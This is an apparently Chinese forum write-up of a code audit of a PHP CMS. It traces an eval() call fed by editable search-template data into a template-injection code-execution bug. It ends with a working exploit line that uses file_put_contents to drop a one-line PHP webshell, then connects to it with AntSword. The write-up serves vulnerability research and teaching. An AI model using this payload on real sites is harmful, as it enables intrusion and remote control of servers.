 第一次尝试自己审计代码，小白一个。审计了好长时间，终于皇天不负有心人，找到一处模板注入，最终发现一处代码执行。

审计过程：

采用关键函数溯源法来找的。全局搜索eval函数在e/class/connect.php

![image-20200903120718779](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-7b0a5201a45e66e257ef9c669bb8b31599142f6a.png)

代码如图所示，能否利用这个eval函数，关键点在于$listtemp和$docode

然后全局搜索ReplaceListVars函数，找的使用这个函数的功能点，在e/search/result/index.php中发现使用了这个函数。如图

![image-20200903122632364](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5e253237bc8a87f73d147969f2ad42161fecdd56.png)

从这里开始再进行回溯，查看参数是否可控。可以看到$listvar和$docode都是从$tempr中得到的，所以回溯$tempr

可以看到$tempr是从数据库中查询得到的，执行哪条查询语句关键在于$search\_r\['tempid'\]

![image-20200903123008456](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-6f6c1017cc20b5c2de56016887a1ac1b7584f541.png)

再回溯$search\_r，可以看到$search\_r是从数据库查询到的。

![image-20200903123226779](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-dedb993c0c17cf0ea86769ca421ef252c92a606d.png)

我们连接数据库执行查询，看看这个sql的执行结果。

![image-20200903123652096](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-5d116b1eaf2ca1c35a1223768b45ebdbafa52ebc.png)

可以看到tempid为1。所以$tempr是执行第一条sql语句查询出来的。这里再执行第一条sql看看

![image-20200903123953139](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-0fe49f363a629f69010f7a891eac1731aaf48e0d.png)

如图，listvar就是可以放到eval中执行的字符串，而modid就是控制能否执行eval的$docode。将过程反过来看就是漏洞成因。

而要利用这个漏洞还差一个条件，就是参数可控。所以接下来要找可以插入数据在这里的函数。

全局搜索第一条sql的数据库关键字，在ListSearchtemp.php中发现insert，可以确定这里是新增的地方。

![image-20200903125140913](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-43b3462eb4d2f2b002cf14763694879548c1a47d.png)

在web中找到该页面。可以看到这里显示的模板名称跟之前用sql查询的名字一样，所以可以确定这里就是新增的地方。从页面功能可以看出可以新增和修改，所以eval函数的参数可控。

![image-20200903125657667](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-80e70a259cc86e8ff71e80fe16653e3257feee37.png)

漏洞利用：

![image-20200903130043103](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-4f90a75b19a92f4ab9920439fa25e05ddc4d4d59.png)

修改类别内容为phpinfo，同时勾选上使用程序代码。

然后从首页底部的搜索功能，到/e/search/result/index.php

![image-20200903130322867](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-d9e6cf6af57d2df8049f480e6c38b02ac5d34d76.png)

![image-20200903130408019](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-970cbd17ac3cd9806766b55b6c0c6f952d7be5c4.png)

用file\_put\_contents函数写入一句话木马payload，然后连接蚁剑：

```php
file_put_contents('test1.php','<?php eval($_POST[cmd]);?>');
```

![image-20200903142710122](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-3e7436501193538f4d6600985fadce0b999d3c42.png)

![image-20200903142445589](https://shs3.b.qianxin.com/attack_forum/2021/12/attach-01d823f2ced1ad7c4f03f858c64a22616be91db3.png)
